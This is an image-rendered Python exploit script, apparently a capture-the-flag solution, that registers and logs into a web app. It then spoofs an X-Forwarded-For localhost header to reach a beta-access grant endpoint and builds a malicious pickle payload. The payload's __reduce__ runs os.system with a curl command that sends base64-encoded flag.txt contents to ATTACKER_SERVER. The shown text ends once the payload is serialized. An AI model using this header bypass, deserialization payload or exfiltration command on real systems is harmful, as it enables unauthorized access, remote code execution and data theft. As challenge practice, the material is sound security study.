 ```python
def get_csrf_token(response_text):
    soup = BeautifulSoup(response_text, 'html.parser')
    csrf_input = soup.find('input', {'name': 'csrf_token'})
    return csrf_input['value'] if csrf_input else None

# Part 1: Register user
def register_user(username, password):
    session = requests.Session()
    # Get CSRF token
    response = session.get(f"{BASE_URL}/register")
    csrf_token = get_csrf_token(response.text)

    # Submit registration
    response = session.post(f"{BASE_URL}/register", data={
        "username": username,
        "password": password,
        "confirm_password": password,
        "csrf_token": csrf_token
    })
    if response.status_code == 200:
        logger.info("User registered successfully.")
    else:
        logger.error("Registration failed.")
    return session.cookies

# Part 2: Login user
def login_user(username, password, session_cookies):
    session = requests.Session()
    # Get CSRF token
    response = session.get(f"{BASE_URL}/login", cookies=session_cookies)
    csrf_token = get_csrf_token(response.text)

    # Submit login
    response = session.post(f"{BASE_URL}/login", data={
        "username": username,
        "password": password,
        "csrf_token": csrf_token
    }, cookies=session_cookies)
    if response.status_code == 200:
        logger.info("Login successful.")
    else:
        logger.error("Login failed.")
    return session.cookies

# Part 3: Grant beta access
def grant_beta_access(username, session_cookies):
    response = requests.post(f"{BASE_URL}/grant", headers={
        "X-Forwarded-For": "127.0.0.1",
        "Content-Type": "application/json"
    }, json={"username": username}, cookies=session_cookies)

    if response.status_code == 200:
        logger.info("Beta access granted.")
    else:
        logger.error("Grant access failed.")

# Part 4: Exploit pickle vulnerability
def exploit(session_cookies):
    class P(object):
        def __reduce__(self):
            return (os.system, ("curl https://ATTACKER_SERVER/?result=`cat flag.txt | base64`",))

    payload = pickle.dumps(P())
```